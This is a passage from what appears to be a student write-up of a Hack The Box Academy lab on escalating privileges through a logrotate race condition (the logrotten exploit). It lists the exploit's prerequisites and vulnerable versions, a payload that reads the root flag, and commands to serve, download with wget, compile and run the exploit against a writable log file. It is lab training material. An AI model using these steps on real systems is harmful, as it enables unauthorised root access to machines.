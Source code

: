 The -static flag ensures the binary doesn’t rely on the target system’s GLIBC.


### Trobleshooting:  no  `/etc/logrotate.conf` file

If there is no `/etc/logrotate.conf` file, then logrotate relies on the configuration for each service contained at `/etc/logrotate.d/` directory.

## HTB lab


**SH to  (ACADEMY-LLPE-LOG) with user "htb-student" and password "HTB_@cademy_stdnt!". Escalate the privileges and submit the contents of flag.txt as the answer.**

Connect via ssh to the target. 

We run linpeas_linux_amd64 and notice the lines:

```


```

To exploit `logrotate`, we need some requirements that we have to fulfill.

**1.**  we need `write` permissions on the log files

```
ls -la /home/htb-student/backups
```

**2.** logrotate must run as a privileged user or `root`. This is the normal behaviour.

```
which logrotate
ls -la /usr/sbin/logrotate
```

**3.** vulnerable versions:
    - 3.8.6
    - 3.11.0
    - 3.15.0
    - 3.18.0

```
logrotate --version
```

Output is 3.11.

Craft the payload:

```
echo 'cat /root/flag.txt > /home/htb-student/flag.txt' > payload
```

Run the exploit:

```
# In the kali machine
git clone https://github.com/whotwagner/logrotten.git
cd logrotten
python3 -m http.server 80

# In the target host, download the file and compile it:
wget http://10.10.15.41/logrotten.c
gcc -o logrotten logrotten.c

# Run the exploit
./logrotten -p payload /home/htb-student/backups/access.log

# Open another ssh connection with the target host and trigger the log rotation mechanism for access.log
```
